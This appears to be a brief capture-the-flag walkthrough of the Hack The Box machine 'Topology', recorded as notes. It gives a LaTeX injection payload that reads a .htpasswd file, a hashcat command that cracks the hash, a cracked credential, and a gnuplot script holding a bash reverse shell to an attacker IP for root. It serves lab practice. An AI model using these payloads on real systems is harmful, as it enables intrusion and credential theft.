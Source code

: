 # Topology

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| topology | 10.10.11.217 | Easy       | Linux |

## NMAP

| HOST                        | PORT | PROTO | SERVICE      | VERSION                 |
| --------------------------- | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.217 (topology.htb) | 22   | tcp   | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.7 |
| 10.10.11.217 (topology.htb) | 80   | tcp   | Apache httpd | 2.4.41                  |


## HEADERS

```
HTTP/1.1 200 OK
Date: Fri, 07 Jul 2023 23:58:29 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Tue, 17 Jan 2023 17:26:29 GMT
ETag: "1a6f-5f27900124a8b"
Accept-Ranges: bytes
Content-Length: 6767
Vary: Accept-Encoding
Content-Type: text/html
```

## DIRECTORIES


## USERS

- vdaisley $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0 (calculus20)

## NOTES

* Found: dev.topology.htb Status: 401 [Size: 463] (login)
* Found: stats.topology.htb Status: 200 [Size: 108] (fake stats page)
* latex.topology.htb
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection latex injection cheatsheet
* has blacklisted commands, that can be bypassed using `$` either side 
* `$\lstinputlisting{/var/www/dev/.htpasswd}$`
* `hashcat -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt` to crack htpasswd
* `pspy64` shows `gnuplot` running a wildcard `.plt` script in the `/opt/gnuplot` directory as root
* create a `.plt` script with the code `system "bash -c 'bash -i >& /dev/tcp/10.10.14.9/2222 0>&1'"` to execute a reverse shell
* copy it into `/opt/gnuplot` with a listener open
